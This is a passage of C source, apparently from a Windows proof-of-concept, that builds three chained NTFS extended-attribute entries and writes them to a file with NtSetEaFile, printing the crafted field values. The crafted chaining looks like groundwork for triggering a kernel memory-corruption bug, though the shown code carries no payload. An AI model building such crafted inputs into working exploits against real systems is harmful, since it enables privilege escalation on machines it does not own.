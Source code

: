 ```c

    eaBuffer1->NextEntryOffset = eaBufferSize1;
    eaBuffer1->Flags = 0x00;
    eaBuffer1->EaNameLength = EA_NAME_LENGTH;
    eaBuffer1->EaValueLength = eaValue1Length;
    memcpy(eaBuffer1->EaName, EA_NAME, EA_NAME_LENGTH + 1);
    memcpy(eaBuffer1->EaName + EA_NAME_LENGTH + 1, eaValue1, eaValue1Length);

    IO_STATUS_BLOCK ioStatus;
    //NTSTATUS status = NtSetEaFile(hFile, &ioStatus, eaBuffer, eaBufferSize);

    printf("[*] eaBuffer1->NextEntryOffset:  %p\n", eaBuffer1->NextEntryOffset);
    printf("[*] eaBuffer1->EaNameLength   :  %p\n", eaBuffer1->EaNameLength);
    printf("[*] eaBuffer1->EaValueLength  :  %p\n", eaBuffer1->EaValueLength);

    
    // second EA
    eaBuffer2->NextEntryOffset = eaBufferSize2;
    eaBuffer2->Flags = 0x00;
    eaBuffer2->EaNameLength = EA_NAME_LENGTH2;
    eaBuffer2->EaValueLength = eaValue2Length;
    memcpy(eaBuffer2->EaName, EA_NAME2, EA_NAME_LENGTH2 + 1);
    memcpy(eaBuffer2->EaName + EA_NAME_LENGTH2 + 1, eaValue2, eaValue2Length);


    printf("[*] eaBuffer2->NextEntryOffset:  %p\n", eaBuffer2->NextEntryOffset);
    printf("[*] eaBuffer2->EaNameLength   :  %p\n", eaBuffer2->EaNameLength);
    printf("[*] eaBuffer2->EaValueLength  :  %p\n", eaBuffer2->EaValueLength);


    // third EA
    eaBuffer3->NextEntryOffset = 0;
    eaBuffer3->Flags = 0x00;
    eaBuffer3->EaNameLength = EA_NAME_LENGTH3;
    eaBuffer3->EaValueLength = eaValue3Length;
    memcpy(eaBuffer3->EaName, EA_NAME3, EA_NAME_LENGTH3 + 1);
    memcpy(eaBuffer3->EaName + EA_NAME_LENGTH3 + 1, eaValue3, eaValue3Length);

    printf("[*] eaBuffer3->NextEntryOffset:  %p\n", eaBuffer3->NextEntryOffset);
    printf("[*] eaBuffer3->EaNameLength   :  %p\n", eaBuffer3->EaNameLength);
    printf("[*] eaBuffer3->EaValueLength  :  %p\n", eaBuffer3->EaValueLength);


    char* buf = (char*)malloc(eaBufferSize1 + eaBufferSize2 + eaBufferSize3);
    memcpy(buf, eaBuffer1, eaBufferSize1);
    memcpy(buf + eaBufferSize1, eaBuffer2, eaBufferSize2);
    memcpy(buf + (eaBufferSize1 + eaBufferSize2), eaBuffer3, eaBufferSize3);

    NTSTATUS status = NtSetEaFile(hFile, &ioStatus, buf, eaBufferSize1+eaBufferSize2+eaBufferSize3);

    if (status != STATUS_SUCCESS) {
        printf("NtSetEaFile error: %08x\n", status);
        free(buf);
        free(eaBuffer1);
        free(eaBuffer2);
        CloseHandle(hFile);
        return 0;
    }
    
    printf("Extended attribute set successfully\n");
    return 1;
}
```